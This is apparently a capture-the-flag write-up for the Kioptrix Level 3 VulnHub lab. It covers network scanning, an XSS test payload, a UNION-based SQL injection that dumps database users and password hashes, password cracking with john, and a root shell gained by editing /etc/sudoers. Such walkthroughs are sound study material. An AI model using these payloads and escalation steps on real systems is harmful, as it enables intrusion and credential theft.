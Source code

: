 ```yaml
---
layout: post
title: Kioptrix Level 3
---
```

[Kioptrix Level 3](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

## Find IP of box
Our IP: x.x.x.49

`nmap -sP <LHOST>/24`

Kioptrix is running on: x.x.x.16  

## /etc/hosts

As mentioned in the Description of the VM on VulnHub, we must add our victim machine IP to our /etc/hosts file

`x.x.x.16 kioptrix3.com`

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.16`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL3/NMap1.JPG)
 
 There are only 2 ports open: 22 (ssh), 80 (http)

## HTTP - Port 80
### Gobuster

`gobuster dir -u http://x.x.x.16 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

![Initial Gobuster Scan](/images/KioptrixL3/gobuster1.JPG)

Navigate to gallery if we use the sorting options drop down menu in the album, the URL changes to contain parameters such as id=1, which suggest we may be able to use XSS.

### XSS Check

Replace the '1' and the text after in the URL with `<script>alert(1)</script>` and it executes successfully

![XSS Check](/images/KioptrixL3/XSS1.JPG)

### SQLI Check

We can also check for and SQL injection vulnerability by replacing the 1 with `' or '1'='1` 

![SQLI Check](/images/KioptrixL3/SQLI1.JPG)

### SQLI Exploitation
#### Number of Columns

Continuing with the SQLI attack, we need to find the number of columns in the table. To do this we can enter `order by x--` where x is an integer. Start at 1 and increment by 1 until we get `unkown column`

When x=6, it works:

![SLQI Column correct](/images/KioptrixL3/SQLI2.JPG)

But if we enter 7, it fails:

![SQLI Column failure](/images/KioptrixL3/SQLI3.JPG)

Therefore, we know there are 6 columns in the table

#### Vulnerable Columns

To find these, after `id = 1` we enter `union select 1,2,3,4,5,6` and the numbers that appear in the 'Sub Gallery' section are new to the page and therefore the vulnerable columns

![SQLI Vulnerable Columns](/images/KioptrixL3/SQLI4.JPG)

#### SQL Version

This is simple, just replace either the 2 or 3 from the `union select 1,2,3,4,5,6` injection previously

We are using version 5.0.51a-3ubuntu5.4 which is MySQL

#### Database Name

Replace the `version` from the previous injection with `database`

The database name is gallery

#### User

Replace `database` with `user`

The user is root@localhost

#### Table Name

Replace `user()` with `group_concat(table_name)` and append ` from information_schema.tables where table_schema=database()--` at the end of the URL

This shows all of the table names we have access to

dev_accounts looks most promising so we'll start there

#### Column Name

For the next injection, we first need to convert dev_accounts to ASCII which gets us 100, 101, 118, 95, 97, 99, 99, 111, 117, 110, 116, 115

First change the table from `table_name` to `column` and replace everything after the 6 with `from information_schema.columns where table_name=char(100, 101, 118, 95, 97, 99, 99, 111, 117, 110, 116, 115)`

The column names are id, username and password

#### Username + hash

Replace `column_name` with `username,password` and everything after from to dev_accounts

We get the usernames dreg and loneferret and the password hashes for each 

### Hash Cracking

Add each hash (seperate lines) to a file and run the command `john --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5 <file_name>`

The creds are 
- dreg : Mast3r
- loneferret : starwars

### SSH and Privilege Escalation

We can SSH in as either user, I chose loneferret

Run `sudo -l` to find commands we run as sudo with a password

It shows we can run /usr/local/bin/ht

Run `export TERM=xterm-color`

Then `sudo ht /etc/sudoers` to edit the sudoers file as sudo

Press F3 and open /etc/sudoers

In the loneferret user line, add /bin/sh to the commands being run as sudo

Press F10 and enter to save and exit the file.

Now if we run `sudo -l` we can run `/bin/sh` as sudo

To get root, just run `sudo sh`

